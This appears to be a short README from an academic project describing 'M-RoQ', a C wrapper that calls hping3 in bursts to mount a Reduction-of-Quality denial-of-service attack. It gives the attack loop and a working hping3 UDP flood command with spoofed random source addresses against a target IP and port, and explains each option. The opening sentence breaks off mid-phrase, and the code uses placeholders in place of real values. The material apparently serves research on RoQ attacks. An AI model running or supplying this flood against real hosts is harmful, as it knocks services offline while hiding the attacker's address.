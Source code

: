 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>
#include <unistd.h>

main()
{
	while(<time in seconds>)
	{
		system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");
		usleep(<time in miliseconds>);
        time in seconds++;
	}
    system("killall -9 hping3");
}

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.

Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process. 

Authors:
Vinícius de Miranda Rios
Pedro R. M. Inácio 
Damien Magoni
Mário M. Freire